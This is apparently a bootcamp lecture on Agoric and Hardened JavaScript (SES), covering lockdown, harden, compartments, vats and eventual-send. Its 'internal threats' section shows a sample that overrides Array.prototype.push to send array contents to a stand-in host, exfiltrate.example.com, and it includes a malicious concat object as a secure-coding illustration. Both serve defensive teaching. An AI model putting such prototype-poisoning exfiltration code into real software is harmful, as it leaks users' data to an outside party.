




# Lecture One - Introduction To Agoric and Hardened JavaScript
## Table of Contents
* What is Agoric?
  * What does it aim to bring to the ecosystem?
  * Who builds it?
  * Agoric's position in the Cosmos ecosystem
  * The Agoric Stack
* Hardened JavaScript
  * What is Hardened JavaScript? 
  * History of `Hardened JavaScript`/`SES`
  * Keywords, Terminology
  * Execution Environment
  * Parts Of Hardened JavaScript
  * Coding Samples
* Communicating With Remote Objects

## What is Hardened JavaScript?
Hardened JavaScript is perhaps the most important part of Agoric's JavaScript Framework. Its main purpose is to make JavaScript development secure from
internal threats.



_Figure 1: JavaScript Language Features_
> Above screenshot is taken from [Hardened JavaScript Security Report](https://assets.ctfassets.net/xm0kp9xt5r54/5yM6whKLuiTTCvXQiSw0xe/24bc9532c5ed26f429ec7354095b491e/Hardened-JavaScript.pdf).

The [SES Guide](https://github.com/endojs/endo/blob/master/packages/ses/docs/guide.md) from the docs describes `Hardened JavaScript` as below;
- Is a JavaScript runtime library for safely running third-party code.
- Addresses JavaScript’s lack of internal security.
  - This is particularly significant because JavaScript applications
    use and rely on third-party code (modules, packages, libraries,
    user-provided code for extensions and plug-ins, etc.).
- Enforces best practices by removing hazardous features such as global
  mutable state and lack of encapsulation in sloppy mode.
- Is a safe deterministic subset of "strict mode" JavaScript.
- Does not include any IO objects that provide
  [*ambient authority*](https://en.wikipedia.org/wiki/Ambient_authority).
- Removes non-determinism by modifying a few built-in objects.
- Adds functionality to freeze and make immutable both built-in JavaScript
  objects and program created objects.

### Principles of Hardened JavaScript
`Hardened JavaScript` aims to bring security to JavaScript by actually removing insecurities. In order to enforce security, it relies on 
two principles;
* **OCaps(Object Capabilities)**: _SES Guide[4]_ describes OCaps discipline as below;<br>
  "Any programming environment fitting the OCaps model satisfies three requirements:
  * Any program can protect its invariants by hiding its own data and capabilities.
  * Power can only be exercised over something by having a reference to the object providing that power, for example, a file system object. 
  A reference to a powerful object is a capability.
  * The only way to get a capability is by being given one. For example, by receiving one as an argument of a constructor or method."
  
  _SES Guide[4]_ also adds: "With OCaps, many strangers can collaborate in a single sandbox, without risking them frustrating, interfering, 
  or conspiring with or against the user or each other."


* **POLA(Principle of Least Authority):** A general definition might be;

  "_The Principle of Least Authority (POLA) says that code should be granted only the authority it needs to perform its task and no more._"[5]

  `Hardened JavaScript` does not directly enforce `POLA` but implements a rich toolset so that the programmers can hand out necessary authorities,
and no more, to their modules.

### What do you mean by "internal threats"?
What happens if a program your code depends on, misbehaves? What happens if it overrides the `Array.prototype.push` method?
With the normal JavaScript, there's nothing prevents something like below;
```js
const push = Array.prototype.push;
Array.prototype.push = (...args) => {
  fetch(`https://exfiltrate.example.com?${args}`);
  return push.apply(this, args);
};
```
> **Note**: The code sample above is taken from [Hardened JavaScript(10:34)](https://www.youtube.com/watch?v=RZ7bBIU8DRc).

[Moddable](https://github.com/Moddable-OpenSource/moddable) describes `Hardened JavaScript` in their blog like this;

"_The core problem SES solves is allowing code from different sources to be safely executed in a single JavaScript virtual machine. 
This ensures each section of code is secure from interference by the others._"

## `Hardened JavaScript` or `SES`?
`Hardened JavaScript` is what formerly known as `SES`. SES stands for `Secure ECMAScript`. Along this bootcamp, documents we refer to and
in JavaScript community in general, the terms `SES` and `Hardened JavaScript` are used interchangeably.

### Background Work
There exists two proposals made to [Ecma TC39](https://github.com/tc39) for making `Hardened JavaScript` the _Standard JavaScript_;
1. [proposal-ses](https://github.com/tc39/proposal-ses)
2. [proposal-compartments](https://github.com/tc39/proposal-compartments)

Number 2 superseeds the number 1. Current stage is `Stage 1`.

## Keywords, Terminology
* **Endo**: What Node.js does for JavaScript, Endo does for Hardened JavaScript. Endo loads packages and modules in an ECMAScript module loader that isolates every package,
granting limited access to the host's resources. Agoric smart contracts are an example of Endo guest programs. [2]
* **Shim**: A shim is a piece of code used to correct the behavior of code that already exists, usually by adding new API that works around the problem.[3]
* **JS Intrinsics/Primordials:** Built-in JavaScript objects such as `Object`, `Array`, and `RegExp`.
* **Realm**: A realm is the set of primordial (objects and standard library functions like Array.prototype.push) and a global object. 
In a web browser, an iframe is a realm. In Node.js, a Node process is a realm. [1]

## Execution Environment


_Figure 2: JavaScript Runtime Environment Example_

_According to the Agoric Docs[6]_, Agoric adopts the same event-loop concurrency model as web browsers and Node.js. Every event-loop has a message queue, stack and
a heap of objects. Agoric refers to this event-loop as `vat`.

One important thing to note is, synchronous function calls can only be used within a `vat`. For vat-to-vat communications we need to use `eventual-send`, but 
`evetual-send` calls can also be used within the same `vat`.

> If you don't know what `eventual-send` means, don't worry. We'll cover in the `Communicating With Remote Objects` section.

### Static vs Dynamic Vats
There two types of `vats`:
* Static Vats
* Dynamic Vats

`Static Vats` are started at the system boot. Each static vat contains a specific `agoric-sdk` component. `Static Vats` are needed to keep the ecosystem going.

`Dynamic Vats` run the third party code. For instance, if you deploy a smart contract it runs in its own vat. This is an important point, 
`Smart Contracts` run in their own vats. Can you think of what kind benefits approach can bring?



> **Figure 3:** Screenshot from [Distributed Programming for a Decentralized World](https://www.youtube.com/watch?v=52SgGFpWjsY&list=PLzDw4TTug5O1oHRbp2HkcvKABAY9FKsmG)

Possible hosts for `vats`:
* **Blockchain:** When a contract is deployed to blockchain, all nodes in that network runs the contract in their machine. If there are 10 nodes then are 10 vats for
the particular contract. But notice how all `vats` in a public chain(bottom layer) is represented as single vats in the green(top) layer. This is an abstraction
that the replicated nature of the blockchain enables.
* **Ag-Solo:** This is the client interacting with the agoric chain which runs on a solo machine. But from the point of abstraction green layer brings, 
it's just another `vat` that is ready to interact with other vats.

## Parts Of Hardened JavaScript
`Hardened JavaScript` enforces security to the language. Great, but how? 

In order to achieve security by `POLA` and `Ocaps`, we must first take a look at why JavaScript is not a OCaps enforcing language.
According to the **SES Guide[4]**:

"Ordinary JavaScript does not fully qualify as an OCaps language due to the pervasive mutability of shared objects."

Our code sample in `What do you mean by "internal threats"?` section is a good example for this.

In the guide it says;

"_Hardened JavaScript consists of three parts:_

* _`Lockdown` is a function that irreversibly repairs and hardens an existing mutable JavaScript environment._
* _`Harden` is a function that makes interfaces tamper-proof, so objects can be shared between programs._
* _`Compartment` is a class that constructs isolated environments, with separate globals and modules, but shared hardened primordials and limited access to other powerful objects in global scope._"

Let's examine these three main parts one-by-one;

### Lockdown
According to the _SES Guide - Lockdown[7]_, the definition of `lockdown` is:

"lockdown() freezes all JavaScript defined objects accessible to any program in the execution environment. 
Calling lockdown() turns a JavaScript system into a hardened system, with enforced OCap (object-capability) security. 
It alters the surrounding execution environment (realm) such that no two programs running in the same realm can observe or 
interfere with each other until they have been introduced."

Here are some of the intrinsic objects `lockdown` freezes;

- `globalThis`
- `[].__proto__` the array prototype, equivalent to `Array.prototype` in a pristine JavaScript environment.
- `{}.__proto__` the `Object.prototype`

And the list goes on... _See Reference - Lockdown[8]_ for more examples.

Is that all? Of course not, `lockdown` also removes some existing, platform specific JavaScript features. Here are some examples;

* `queueMicrotask`
* `URL` and `URLSearchParams`
* `WebAssembly`
* `TextEncoder` and `TextDecoder`
* `global`
  * Use `globalThis` instead (and remember it is frozen).
* `process`
  * No `process.env` to access the process's environment variables.
  * No `process.argv` for the argument array.

See _SES Guide - Lockdown Removals[9]_ for more details.

We're still not done. `lockdown` also adds the Hardened JavaScript specific features to the environment.

**Remember**: `lockdown` enforces the `SES Shim` and the JavaScript environment is not a Hardened JavaScript environment until 
`lockdown` is invoked.

`lockdown` also injects following properties to the `globalThis`;

* `assert`
* `harden`
* `Compartment`

Next, we'll discover `harden`.

### Harden
Any code that will run inside a vat or a contract can use harden as a global, without importing anything.
`Harden` tamper-proofs user defined object along with their prototypes. Any program working with that object can only
invoke whatever is in the surface of that object. Any attempts to subvert the object's properties will fail.

```js
const makeImportantRecord = () => {
  const importantData = 'This is very important!';
  
  const getImportantData = () => {
    const importantCopy = importantData;
    return importantCopy;
  };
  
  return harden({ getImportantData })
}

const importantRecord = makeImportantRecord();

importantRecord.getImportantData = () => {
  return 'I hate you!'
}; // This will throw!
```

### Compartment
According to _SES - Compartments[10]_, the definition of `Compartments` is:

"A compartment is an evaluation and execution environment with its own globalThis and wholly independent system of modules, 
but otherwise shares the same batch of intrinsic like Array with the surrounding compartment."

_SES - Compartments[10]_ also contains some code samples for better understanding:

Here, a compartment with `print` endowment is created and invoked.

```js
import 'ses';
lockdown();

const c = new Compartment({
  print: harden(console.log),
});

c.evaluate(`
  print('Hello! Hello?');
`);
```

Different compartments share the same intrinsic but they different `globalThis` objects.

```js
const c1 = new Compartment();
const c2 = new Compartment();
c1.globalThis === c2.globalThis; // false
c1.globalThis.JSON === c2.globalThis.JSON; // true
```

By default, a new Compartment omits `Date.now` and `Math.random`, since they might covert communication channels between programs.
But we can add them to the Compartment if we like. There are two ways for achieving this;

* The first argument to the compartment constructor or
* By assigning them to the compartment's globalThis after construction.

```js
const powerfulCompartment = new Compartment({ Math });
powerfulCompartment.globalThis.Date = Date;
```

It's up to the programmer whether to harden `globalThis` of the Compartment. We're able to assign `Date` to the `globalThis` because
we didn't invoke harden first. 

## Coding Samples
To use `Hardened JavaScript` in your code, run:

```shell
npm install ses
```

Then in your code:

```js
import 'ses';
lockdown();
```

If your environment is a browser, add this at the top of your `index.html`;

```html
<script src="node_modules/ses/dist/ses.umd.min.js">
```

Once you do either one of the above, you will have access to `Hardened JavaScript` features.

_Secure Coding Guide[11]_ has a lot of cool examples, you should definitely check them out.
I chose below two examples particularly since they seem interesting to me.

### Accepting Arrays
`Array.prototype.concat` concatenates two arrays and returns a new array. An insecure usage might be something like below:

```js
// insecure
function combine(arr1, arr2) {
  const combined = arr1.concat(arr2);
  return combined;
}
```

The guide explains the insecurity like this:

"_The problem is that .concat is a property of the first array, which means whoever provides that array gets to control what our alleged "concatenate" function does:_"

```js
function getArr1(
  return harden({
    concat(otherArray) {
      console.log("haha I can read", otherArray[0]);
      otherArray.push("haha I can modify otherArray");
      return("haha I can make concat return a string, not an Array");
    },
  });
};

const combined = combine(getArr1(), arr2);
```

And the secure version of concatenating two arrays:

```js
// secure
function combine(arr1, arr2) {
  const combined = [...arr1, ...arr2];
  return combined;
}
```

### Promises Prevent Reentrancy Hazards
Consider a PubSub structure like below:

```js
// insecure
function makePubSub() {
  const subscribers = new Set();
  function subscribe(cb) {
    subscribers.add(cb);
  }
  function unsubscribe(cb) {
    subscribers.delete(cb);
  }
  function publish(msg) {
    for (const s of subscribers) {
      s(msg);
    }
  }
  return harden({subscribe, unsubscribe, publish});
}
```

Guide lists the possible insecurities like below:

* if the callback throws an exception, some number of other subscribers won't
  receive the message
* if the callback adds a new subscriber, the new subscriber may or may not
  get called, depending upon the iterator order and where the subscriber
  lands in the list (note that Sets have improved iteration-ordering
  properties, so this is not as unpredictable as it would be with other
  collection types or in other languages)
* if the callback removes an existing subscriber, they may or may not receive
  this message, depending upon where they were in the list
* if the callback publishes a new message, the two messages might be received
  in different orders by different subscribers

A sample fix is:

```js
  // secure
  function publish(msg) {
    for (const s of subscribers) {
      Promise.resolve(s).then(s => s(msg));
    }
  }
```

The reason this fixes the reentrancy hazard is that the Promise resolves in a future turn of the event-loop instead of the current one. 

## Communicating With Remote Objects
Running different components in their own `vat` partitions risk. Imagine if anyone could deploy their contract into 
the `vat` Zoe(A system component) is running, in the event that one contract tries something malicious like consuming too
much heap space the whole system would be at risk. This security feature brings a problem to be solved. That is,
How do you communicate with other `vat`s? For instance, what if your smart contract needs to call a method from
another smart contract?

### Enter Evantual-Send
In _Concurrency Among Strangers[12]_ eventual operations explained like below;

Imagine a program is executing plan X and discovers the need to engage in plan Y , 
in a sequential system, it has two simple alternatives of when to do Y :

* **Immediately**: Put X aside, work on Y until complete, then go back to X.
* **Eventually**: Put Y on a “to-do” list and work on it after X is complete.

`Hardened JavaScript` implements an 'eventual-send' package that enables programs to invoke methods from other `vat`s 
which they have references to. Since eventual operations happen in a future `turn` of the event-loop instead of the 
current one, there's no reentrancy risk.

Basic logic of communication between `vat`s is explained in a diagram from _Capability Based Financial Instruments[13]_:



In the diagram above, 
* Thick arrows are the methods
* Thin arrows are the references
* Circles are the objects
* Half-circles are the proxy objects that have a connection to the actual `vat`

Let's say we're Alice and want to invoke a method called `hello` from Bob which takes an argument, a reference to Carol.
The syntax for that would be:

```js
import { E } from '@endo/far';

E(Bob).hello(Carol);
```

This is the syntax whenever we want to interact with another `vat`.

_Agoric Docs - Eventual Send[14]_ breaks down the steps after we call `E(zoe).install(bundle)` like this:

1. A message consisting of the method name install with the bundle argument [marshaled](https://docs.agoric.com/guides/js-programming/far.html) to a flat string and queued for delivery to the vat that zoe comes from.
2. E(zoe).install(bundle) returns a promise for the result.
3. The then and catch methods queue callbacks for when the promise is resolved or rejected. Execution continues until the stack is empty and thus this turn through the event loop completes.
4. Eventually zoe responds, which results in a new message in this vat's message queue and a new turn through the event loop. The message is de-serialized and the results are passed to the relevant callback.

### Is it possible to call every method from an object that lives on another `vat`?
No. The object should wrap its methods in a `Far`. Only methods wrapped around a `Far` can be invoked from a remote `vat`.

The syntax for `Far` is as below:

```js
import { Far } from '@endo/far';

const publicFacet = Far('Public Facet', {
  hello: name => `Hello from remote vat ${name}!!!`
})
```


## Resources
[1] [SES Guide - Realms](https://github.com/endojs/endo/blob/master/packages/ses/docs/guide.md#realms)<br>
[2] [SES Guide - Endo](https://github.com/endojs/endo/blob/master/packages/ses/docs/guide.md#what-is-endo)<br>
[3] [MDN Glossary - Shim](https://developer.mozilla.org/en-US/docs/Glossary/Shim)<br>
[4] [SES Guide - OCaps](https://github.com/endojs/endo/blob/master/packages/ses/docs/guide.md#the-hardened-javascript-story)<br>
[5] [POLA Would Have Prevented the Event-Stream Incident](https://agoric.com/blog/technology/pola-would-have-prevented-the-event-stream-incident)<br>
[6] [Agoric Docs - Vats](https://docs.agoric.com/guides/js-programming/#vats-the-unit-of-synchrony)<br>
[7] [SES Guide - Lockdown](https://github.com/endojs/endo/blob/master/packages/ses/docs/guide.md#lockdown)<br>
[8] [Reference - Lockdown](https://github.com/endojs/endo/blob/master/packages/ses/docs/reference.md#lockdown)<br>
[9] [SES Guide - Lockdown Removals](https://github.com/endojs/endo/blob/master/packages/ses/docs/guide.md#what-lockdown-removes-from-standard-javascript)<br>
[10] [SES - Compartments](https://github.com/endojs/endo/tree/master/packages/ses#compartment)<br>
[11] [Secure Coding Guide](https://github.com/endojs/endo/blob/master/packages/ses/docs/secure-coding-guide.md)<br>
[12] [Concurrency Among Strangers](https://papers.agoric.com/assets/pdf/papers/concurrency-among-strangers.pdf)<br>
[13] [Capability Based Financial Instruments](https://papers.agoric.com/assets/pdf/papers/capability-based-financial-instruments.pdf)<br>
[14] [Agoric Docs - Eventual Send](https://docs.agoric.com/guides/js-programming/eventual-send.html#eventual-send)<br>
